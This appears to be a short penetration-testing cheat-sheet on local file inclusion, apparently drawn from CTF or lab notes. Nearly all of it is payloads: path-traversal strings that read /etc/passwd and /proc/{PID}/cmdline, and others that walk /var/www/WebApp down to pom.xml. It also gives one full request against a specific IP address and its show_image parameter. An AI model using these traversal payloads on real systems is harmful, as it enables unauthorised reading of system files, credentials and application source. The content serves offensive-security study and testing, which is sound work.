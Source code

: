 # Local File Inclusion

Payloads

```bash
/etc/passwd
```

Show command used to run the process

```bash
/proc/{PID}/cmdline
```

```
../../../../../../etc/passwd
```

<pre><code>http://10.10.11.204:8080/show_image?img=<a data-footnote-ref href="#user-content-fn-1">../../../../../../etc/passwd</a>
</code></pre>



Enumerate filesystem

```
../../../../../../var/www
```

```
 ../../../../../../var/www/WebApp
```

```
 ../../../../../../var/www/WebApp/pom.xml
```

[^1]: 
